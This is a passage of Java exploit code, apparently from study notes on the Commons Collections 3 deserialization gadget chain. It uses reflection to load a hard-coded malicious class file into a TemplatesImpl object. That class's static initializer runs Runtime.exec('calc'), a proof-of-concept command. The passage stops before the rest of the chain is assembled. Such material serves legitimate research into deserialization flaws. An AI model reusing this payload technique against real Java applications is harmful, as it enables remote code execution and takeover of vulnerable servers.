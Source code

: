 ```java

public class CC3 {
    public static void main(String[] args) throws Exception {
		TemplatesImpl templates = new TemplatesImpl();
        Class cc3 = templates.getClass();
        Field nameField = cc3.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "sfabc");
        Field bytecodesField = cc3.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        byte[] code = {-54,-2,-70,-66,0,0,0,52,0,52,10,0,8,0,36,10,0,37,0,38,8,0,39,10,0,37,0,40,7,0,41,10,0,5,0,42,7,0,43,7,0,44,1,0,6,60,105,110,105,116,62,1,0,3,40,41,86,1,0,4,67,111,100,101,1,0,15,76,105,110,101,78,117,109,98,101,114,84,97,98,108,101,1,0,18,76,111,99,97,108,86,97,114,105,97,98,108,101,84,97,98,108,101,1,0,4,116,104,105,115,1,0,20,76,99,111,109,47,99,111,109,109,111,110,47,99,99,47,84,101,115,116,59,1,0,9,116,114,97,110,115,102,111,114,109,1,0,114,40,76,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,97,108,97,110,47,105,110,116,101,114,110,97,108,47,120,115,108,116,99,47,68,79,77,59,91,76,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,109,108,47,105,110,116,101,114,110,97,108,47,115,101,114,105,97,108,105,122,101,114,47,83,101,114,105,97,108,105,122,97,116,105,111,110,72,97,110,100,108,101,114,59,41,86,1,0,8,100,111,99,117,109,101,110,116,1,0,45,76,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,97,108,97,110,47,105,110,116,101,114,110,97,108,47,120,115,108,116,99,47,68,79,77,59,1,0,8,104,97,110,100,108,101,114,115,1,0,66,91,76,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,109,108,47,105,110,116,101,114,110,97,108,47,115,101,114,105,97,108,105,122,101,114,47,83,101,114,105,97,108,105,122,97,116,105,111,110,72,97,110,100,108,101,114,59,1,0,10,69,120,99,101,112,116,105,111,110,115,7,0,45,1,0,-90,40,76,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,97,108,97,110,47,105,110,116,101,114,110,97,108,47,120,115,108,116,99,47,68,79,77,59,76,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,109,108,47,105,110,116,101,114,110,97,108,47,100,116,109,47,68,84,77,65,120,105,115,73,116,101,114,97,116,111,114,59,76,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,109,108,47,105,110,116,101,114,110,97,108,47,115,101,114,105,97,108,105,122,101,114,47,83,101,114,105,97,108,105,122,97,116,105,111,110,72,97,110,100,108,101,114,59,41,86,1,0,8,105,116,101,114,97,116,111,114,1,0,53,76,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,109,108,47,105,110,116,101,114,110,97,108,47,100,116,109,47,68,84,77,65,120,105,115,73,116,101,114,97,116,111,114,59,1,0,7,104,97,110,100,108,101,114,1,0,65,76,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,109,108,47,105,110,116,101,114,110,97,108,47,115,101,114,105,97,108,105,122,101,114,47,83,101,114,105,97,108,105,122,97,116,105,111,110,72,97,110,100,108,101,114,59,1,0,8,60,99,108,105,110,105,116,62,1,0,1,101,1,0,21,76,106,97,118,97,47,105,111,47,73,79,69,120,99,101,112,116,105,111,110,59,1,0,13,83,116,97,99,107,77,97,112,84,97,98,108,101,7,0,41,1,0,10,83,111,117,114,99,101,70,105,108,101,1,0,9,84,101,115,116,46,106,97,118,97,12,0,9,0,10,7,0,46,12,0,47,0,48,1,0,4,99,97,108,99,12,0,49,0,50,1,0,19,106,97,118,97,47,105,111,47,73,79,69,120,99,101,112,116,105,111,110,12,0,51,0,10,1,0,18,99,111,109,47,99,111,109,109,111,110,47,99,99,47,84,101,115,116,1,0,64,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,97,108,97,110,47,105,110,116,101,114,110,97,108,47,120,115,108,116,99,47,114,117,110,116,105,109,101,47,65,98,115,116,114,97,99,116,84,114,97,110,115,108,101,116,1,0,57,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,97,108,97,110,47,105,110,116,101,114,110,97,108,47,120,115,108,116,99,47,84,114,97,110,115,108,101,116,69,120,99,101,112,116,105,111,110,1,0,17,106,97,118,97,47,108,97,110,103,47,82,117,110,116,105,109,101,1,0,10,103,101,116,82,117,110,116,105,109,101,1,0,21,40,41,76,106,97,118,97,47,108,97,110,103,47,82,117,110,116,105,109,101,59,1,0,4,101,120,101,99,1,0,39,40,76,106,97,118,97,47,108,97,110,103,47,83,116,114,105,110,103,59,41,76,106,97,118,97,47,108,97,110,103,47,80,114,111,99,101,115,115,59,1,0,15,112,114,105,110,116,83,116,97,99,107,84,114,97,99,101,0,33,0,7,0,8,0,0,0,0,0,4,0,1,0,9,0,10,0,1,0,11,0,0,0,47,0,1,0,1,0,0,0,5,42,-73,0,1,-79,0,0,0,2,0,12,0,0,0,6,0,1,0,0,0,11,0,13,0,0,0,12,0,1,0,0,0,5,0,14,0,15,0,0,0,1,0,16,0,17,0,2,0,11,0,0,0,63,0,0,0,3,0,0,0,1,-79,0,0,0,2,0,12,0,0,0,6,0,1,0,0,0,23,0,13,0,0,0,32,0,3,0,0,0,1,0,14,0,15,0,0,0,0,0,1,0,18,0,19,0,1,0,0,0,1,0,20,0,21,0,2,0,22,0,0,0,4,0,1,0,23,0,1,0,16,0,24,0,2,0,11,0,0,0,73,0,0,0,4,0,0,0,1,-79,0,0,0,2,0,12,0,0,0,6,0,1,0,0,0,28,0,13,0,0,0,42,0,4,0,0,0,1,0,14,0,15,0,0,0,0,0,1,0,18,0,19,0,1,0,0,0,1,0,25,0,26,0,2,0,0,0,1,0,27,0,28,0,3,0,22,0,0,0,4,0,1,0,23,0,8,0,29,0,10,0,1,0,11,0,0,0,97,0,2,0,1,0,0,0,18,-72,0,2,18,3,-74,0,4,87,-89,0,8,75,42,-74,0,6,-79,0,1,0,0,0,9,0,12,0,5,0,3,0,12,0,0,0,22,0,5,0,0,0,14,0,9,0,17,0,12,0,15,0,13,0,16,0,17,0,18,0,13,0,0,0,12,0,1,0,13,0,4,0,30,0,31,0,0,0,32,0,0,0,7,0,2,76,7,0,33,4,0,1,0,34,0,0,0,2,0,35};
        byte[][] codes = {code};
        bytecodesField.set(templates, codes);
        Field tfactoryField = cc3.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templates, new TransformerFactoryImpl());
```